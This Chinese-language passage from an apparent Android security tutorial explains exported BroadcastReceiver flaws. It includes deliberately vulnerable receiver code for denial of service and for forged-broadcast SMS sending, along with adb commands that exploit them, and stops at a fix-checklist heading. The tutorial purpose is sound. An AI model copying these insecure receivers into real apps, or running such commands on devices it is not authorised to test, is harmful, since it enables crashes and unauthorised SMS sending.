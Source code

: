 #### 📌 漏洞 ④：拒绝服务（DoS）  
##### ✅ 风险描述：  
  
攻击者持续高频发送广播，触发广播内耗时操作导致卡顿甚至 ANR 崩溃。  
##### ☠️ Receiver 示例：  
```
@Overridepublic void onReceive(Context context, Intent intent){try {        Thread.sleep(5000); // ⚠️耗时操作导致卡死    } catch (InterruptedException e) {}}
```  
##### ⚙️ Manifest 配置：  
```
<receiver android:name=".SleepReceiver">    <intent-filter>        <action android:name="com.vuln.DOS"/>    </intent-filter></receiver>
```  
##### 💥 攻击命令：  
```
for i in $(seq 1 50); do  adb shell am broadcast -a com.vuln.DOS;done
```  
##### ✅ 修复建议：  
- 广播中只做轻量操作，耗时处理转交 Service  
  
#### 📌 漏洞 ⑤：伪造广播触发发短信  
##### ☠️ 发短信接收器：  
```
public class SmsReceiver extends BroadcastReceiver{@Overridepublic void onReceive(Context context, Intent intent){        String number = intent.getStringExtra("phone");        String text = intent.getStringExtra("msg");        SmsManager.getDefault().sendTextMessage(number, null, text, null, null);    }}
```  
##### ⚙️ Manifest 无限制导出：  
```
<receiver android:name=".SmsReceiver">    <intent-filter>        <action android:name="com.vuln.SEND_SMS"/>    </intent-filter></receiver>
```  
##### 💥 利用命令：  
```
adb shell am broadcast -a com.vuln.SEND_SMS --es phone "13800000000" --es msg "你被黑了"
```  
##### 📌 特殊适用条件：  
- Android 11 以下系统（12+ 系统需显示声明 exported=true）  
  
- 无权限限制或 export=true  
  
### 第三步：🔐 安全修复 + 最佳实践清单  
  